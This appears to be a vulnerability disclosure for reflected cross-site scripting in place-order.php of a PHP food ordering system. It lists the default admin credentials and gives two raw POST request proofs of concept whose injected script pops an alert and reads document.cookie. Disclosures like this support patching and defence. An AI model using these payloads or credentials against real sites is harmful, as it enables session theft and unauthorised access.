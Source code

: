 # Food Ordering Management System v1.0 by oretnom23 has Cross-site scripting (reflected)
BUG_Author: Oudaorui

Login account: admin/admin123 (Super Admin account)

vendors:https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Vulnerability File: /foms/place-order.php

#POC：

```
POST /foms/place-order.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=q8rk2e0ji131erjfddf8dtu1hf
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/foms/index.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 85

1=0rev13%22%3e%3cscript%3ealert('xss')%3c%2fscript%3et4kbj&2=0&description=777596&action=
```

![image](https://github.com/Oudaorui/xsspic/blob/main/placeXss.png)

#POC：
```
POST /foms/place-order.php HTTP/1.1
Host: localhost
Origin: http://localhost
Cookie: PHPSESSID=q8rk2e0ji131erjfddf8dtu1hf
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Upgrade-Insecure-Requests: 1
Referer: http://localhost/foms/index.php
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 99

1=0rev13%22%3e%3cscript%3ealert(document.cookie)%3c%2fscript%3et4kbj&2=0&description=777596&action=
```

![image](https://github.com/Oudaorui/xsspic/blob/main/placeDocumentCookies.png)







